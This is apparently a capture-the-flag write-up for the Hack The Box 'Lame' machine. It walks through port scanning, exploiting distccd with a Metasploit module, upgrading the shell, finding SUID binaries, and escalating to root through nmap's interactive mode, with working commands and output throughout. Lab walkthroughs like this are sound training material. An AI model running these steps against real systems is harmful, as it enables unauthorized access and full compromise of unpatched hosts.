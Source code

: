 # A different Lame box walkthrough

In this walkthrough, I'll show you a **different way** of exploiting the Lame box than all the other walkthroughs (even the official one) show you. ;)

## nmap

As always, let's start with nmap. A standard nmap scan will show you four open ports:

	$ nmap -sV -sT -sC -Pn -oN nmapinitial.txt 10.10.10.3
	
	21/tcp  open  ftp  vsftpd 2.3.4
	22/tcp  open  ssh  OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
	139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
	445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)

But a more thorough scan reveals another port:

	$ nmap -oN scan3k-4k.txt -v -p 3000-4000 10.10.10.3

	3632/tcp open  distccd

Everyone starts with trying to exploit the ftp port (vsftpd 2.3.4), but it doesn't work (the vulnerability was patched).

So the next obvious attempt is the Samba exploit, which is what all the other Lame walkthroughs do - and it's a great exploit, but instead, let's use the port that everyone else ignores: `3632/tcp open  distccd`.

> If you'd like to learn what distccd is, check [this website](https://linux.die.net/man/1/distccd). It's basically a server for the distcc compiler.

## Metasploit

Let's run Metasploit:

	msfconsole

and then do the search to see if there's a `distccd` exploit present:

	search distccd

And sure enough, we find one (pretty old) exploit:

	msf5 > search distccd
	
	Matching Modules
	================
	
	   #  Name                           Disclosure Date  Rank       Check  Description
	   -  ----                           ---------------  ----       -----  -----------
	   0  exploit/unix/misc/distcc_exec  2002-02-01       excellent  Yes    DistCC Daemon Command Execution

So let's run it:

	> use exploit/unix/misc/distcc_exec
	> set RHOST 10.10.10.3
	> run

Metasploit does it's magic... And we get shell access!

Type in `id` to see what user did we get:

	$ id
	uid=1(daemon) gid=1(daemon) groups=1(daemon)

Obviously, it's called `daemon` since we did exploit via `distccd` (which means "distcc daemon").

## Persistent shell

Let's make our shell a bit better looking:

	$ python -c "import pty;pty.spawn('/bin/bash')"

This will show us the name of the user, the host, and the current folder in our shell:

	daemon@lame:/tmp$

We're now in the `/tmp` folder.

## User flag

Let's see if we can get the user flag right away. First, navigate to the home folder and check what's there:

	cd /home
	ls -al

We can see four users having their own folders there:

	drwxr-xr-x  2 root    nogroup 4096 Mar 17  2010 ftp
	drwxr-xr-x  4 makis   makis   4096 Jan 20 06:25 makis
	drwxr-xr-x  2 service service 4096 Apr 16  2010 service
	drwxr-xr-x  3    1001    1001 4096 May  7  2010 user

`ftp`, `service`, and `user` look boring. Let's check `makis` first:

	daemon@lame:/home$ ls -al makis
	
	-rw------- 1 makis makis 1107 Mar 14  2017 .bash_history
	-rw-r--r-- 1 makis makis  220 Mar 14  2017 .bash_logout
	-rw-r--r-- 1 makis makis 2928 Mar 14  2017 .bashrc
	drwx------ 2 makis makis 4096 Jan 20 06:25 .gconf
	drwx------ 2 makis makis 4096 Jan 20 06:25 .gconfd
	-rw-r--r-- 1 makis makis  586 Mar 14  2017 .profile
	-rw-r--r-- 1 makis makis    0 Mar 14  2017 .sudo_as_admin_successful
	-rw-r--r-- 1 makis makis   33 Mar 14  2017 user.txt

Our hunch was correct. There's the `user.txt` flag over there, and it looks like everyone has read permissions on it!

So open it with `cat` and get the user flag:

	cat user.txt

## Privilege escalation

Let's see if we can do the same with root.txt:

	cat /root/root.txt

We get `Permission denied`. We'll need to figure out how to escalate our privileges.

### SUID

Let's see which files have SUID permissions:

	daemon@lame:/home/makis$ find / -perm -u=s -type f 2>/dev/null
	
	/bin/umount
	/bin/fusermount
	/bin/su
	/bin/mount
	/bin/ping
	/bin/ping6
	/sbin/mount.nfs
	/lib/dhcp3-client/call-dhclient-script
	/usr/bin/sudoedit
	/usr/bin/X
	/usr/bin/netkit-rsh
	/usr/bin/gpasswd
	/usr/bin/traceroute6.iputils
	/usr/bin/sudo
	/usr/bin/netkit-rlogin
	/usr/bin/arping
	/usr/bin/at
	/usr/bin/newgrp
	/usr/bin/chfn
	/usr/bin/nmap
	/usr/bin/chsh
	/usr/bin/netkit-rcp
	/usr/bin/passwd
	/usr/bin/mtr
	/usr/sbin/uuidd
	/usr/sbin/pppd
	/usr/lib/telnetlogin
	/usr/lib/apache2/suexec
	/usr/lib/eject/dmcrypt-get-device
	/usr/lib/openssh/ssh-keysign
	/usr/lib/pt_chown

Quite a lot! Hopefully, we'll be able to exploit one of them to get the `root` shell.

### GTFObins

GTFObins is a nice collection of exploits on files with executable permissions. Let's go through the SUID list and try to find some exploit.

After a few misses, you'll find your homerun: `nmap`!

The Lame box uses nmap version 4.53 (you can check this with `nmap --version`) which allows the interactive mode:

	nmap --interactive

This opens an nmap shell inside which we can execute another shell:

	nmap> !sh

Since nmap executes with sudo privileges, this action gives us a root shell. You can confirm this by typing `whoami` in the new shell. It should return `root`.

## Root

Now that you finally have root access, you can try the cat command again:

	cat /root/root.txt

And there's your root flag!

---

This took a bit longer than just using the Samba exploit, but it was more fun and you can learn a lot more this way.
